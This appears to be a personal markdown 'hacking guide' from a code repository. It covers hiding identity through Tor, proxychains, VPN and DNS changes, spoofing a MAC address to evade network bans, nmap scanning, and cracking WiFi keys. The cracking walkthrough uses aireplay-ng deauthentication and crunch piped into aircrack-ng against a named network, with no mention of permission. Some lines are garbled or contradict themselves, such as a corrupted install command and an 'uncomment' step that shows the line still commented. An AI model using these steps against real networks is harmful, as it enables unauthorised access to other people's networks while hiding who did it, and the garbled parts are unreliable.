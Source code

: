 # Hacking Guide

## Anonymity

Keep you anonymous is to hide your internet connection footprints. It means hide your IP, DNS, ISP providers and MAC address. You can do this by setting up Proxychains or a VPN. Changing your MAC address keeps you safe from being banned from local networks

- ### Proxies Chains

  Install **Proxychains** and **Tor**

  ```
  apt install tor
  apt install proxychainsn IP or IP Domain and DNS info.
  ```

  This will use tor to make a proxy path till your destination connection.

  Go to `/etc/proxychains.conf` and:<br>

  1. Comment `strict_chain` --> `# strict_chain`
  2. Uncomment `dynamic_chain` --> `# dynamic_chain`
  3. Make sure that the following lines are in the bottom of the document:

    ```
    # defaults set to "tor"
    socks4  127.0.0.1 9050
    socks4  127.0.0.1 9050
    ```

  4. Make sure that tor and proxychains services are running and start the program you want using proxychains.

    ```
    $ service tor start
    $ service proxychains start
    $ proxychains firefox
    ```

    **You are now anonymous.** Go to dnsleaktest.com to verify your anonymity.

  5. [OPTIONAL] If you don't want to use tor by adding your own proxies in the end of the file in the following pattern:

    ```
    type host port [user pass]

    Examples:

    socks5 192.168.67.78 1080 lamer secret
    ```

    **Always user socks5 proxies**

- ### VPN and DNS

  This will set an anonymous DNS and a VPN connection.

  1. Edit `/etc/dhcp/dhclient.conf` to change your DNS server.
  2. Find the line `#prepend domain-name-servers 127.0.0.1`
  3. Change the localhost IP address in the line for other open DNS servers IP. Put 3 separated by commas.
  4. It should look like

    ```
    prepend domain-name-servers 37.235.1.174, 37.235.1.177;
    ```

    **You need to look for DNS IP addresses that are free, open and don't keep logs**

  5. Run `$ service network-manager restart` to restart your internet.

  6. Run `$ cat /etc/resolv.conf` to check if the DNS are listed there.

  7. **Disable webrtc** on your browser. Just look for it on google.

  8. Find a reliable Open VPN provider and download a VPN from them. Don't forget to grab the user and password if needed. www.vpnbook.com is a good source.

  9. Make sure you have openvpn installed.

  10. Run `$ openvpn file_you_downloaded.ovpn`. It may require the user and password that the vpn provider you downloaded provided.

  11. Wait until you get the `Intialization Sequence Completed` on your terminal.<br>
    <br>
    **You are now anonymous.** Go to dnsleaktest.com to verify your anonymity.

- ### Change you MAC address

  The MAC address don't leave the local network and it is hard to get tracked from it. But, you do can be banned from a network by your MAC address, so being able to change it will prevent you from a complete ban.

  1. Make sure **macchanger** is installed.
  2. Run `$ macchanger -s interface` to show your current and permanent
  3. Run `$ macchanger --help` to the option to change the ip address

## NETWORK SCAN

- ### GET Domain IP or IP Domain and DNS info.

  ```
  $ nslookup domain
  $ nslookup IP
  ```

- ### Get system info.

  NMAP tool. `$ nmap --help` to see how it works.

  1. Get device MAC, open ports, OS and other info.
  2. Find devices in a IP range.
  3. Check <https://nmap.org/nsedoc/> to see available scripts.
  4. <https://exploit-db.com> is a good resouce for this kind of scripts too.

  <br>
  Awk and grep are very useful to handle output.<br>

- ### Get IP location

  Use ipinfo.io with curl. Maximum of 1000 queries/day.

  ```
  curl ipinfo.io/37.235.1.174
  ```

## Wireless Hacking

Do not use virtual machines for brute force and anything of a kind. Too slow.

- ### Necessary tools:

  1. **aircrack-ng**: wifi sniffer and key cracker.
  2. **reaver**: wifi pin cracker.
  3. **crunch**: password list generator.

- ### Hack wifi using aircrack-ng with crunch

  1. Setup wireless card to monitor mode:

    - Get the nanme of your wifi interface using `$ ifconfig`. Ex.: wlan0.
    - Shut it down. `$ ifconfig wlan0 down`.
    - Set the monitor mode. `$ iwconfig wlan0 mode monitor`.
    - Turn it back on. `$ ifconfig wlan0 up`.

  2. Kill running process that may interfere:

    - Check for process and ther PID. `$ airmon-ng check wlan0`
    - Kill all of them but in the order: NetworkManager, dhclient, then the rest. `$ kill pid`
    - Run `$ airmon-ng check wlan0` to make sure that nothing is running.

  3. Start a new interface to monitor. `$ airmon-ng start wlan0`.

  4. Use the new interface to monitor the wifi networks available. `$ airodump-ng mon0`.

  5. Select a network and monitor it. `$ airodump-ng -c [CHANNEL] -w [FILE] --bssid [MAC ADDRES] [INTERFACE]`.

    ```
    $ airodump-ng -c 10 -w SCAN_OUT --bssid 90:F6:52:D0:42:74 mon0
    ```

  6. Keep the step before running and force a new authentication by disconnecting a device. `$ aireplay-ng -0 0 -a [MAC] [INTERFACE]`

    ```
    aireplay-ng -0 0 -a 90:F6:52:D0:42:74 mon0
    ```

  7. Stop the programs that you started and crack the the results of it.

    - If you are going to use a dictionary file:

      ```
      $ aircrack-ng -w [word list file] SCAN_OUT
      ```

    - If you are going to use crunch do:

      ```
      $ crunch <min-len> <max-len> [<charset string>] | aircrack-ng -w - [SCAN OUT .cap FILE] -e [WIFI NETWOERK NAME]
      $ crunch 12 12 -t .%%%%Alegria 169 | aircrack-ng -w - SCAN-01.cap -e dgmelo
      ```



--------------------------------------------------------------------------------
